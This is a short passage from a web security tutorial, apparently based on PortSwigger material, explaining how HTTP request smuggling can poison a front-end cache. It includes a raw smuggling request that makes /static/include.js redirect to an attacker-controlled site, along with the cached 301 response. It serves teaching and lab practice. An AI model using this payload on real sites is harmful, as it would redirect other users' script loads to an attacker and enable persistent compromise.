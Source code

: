 ```

x=1
```

## Using HTTP request smuggling to perform web cache poisoning <a href="#using-http-request-smuggling-to-perform-web-cache-poisoning" id="using-http-request-smuggling-to-perform-web-cache-poisoning"></a>

If any part of the front-end infrastructure performs caching of content (generally for performance reasons), then it might be possible to poison the cache with the off-site redirect response. This will make the attack persistent, affecting any user who subsequently requests the affected URL.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

The smuggled request reaches the back-end server, which responds as before with the off-site redirect. The front-end server caches this response against what it believes is the URL in the second request, which is `/static/include.js`:

```
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

From this point onwards, when other users request this URL, they receive the redirection to the attacker's web site.

#### Example

[https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)
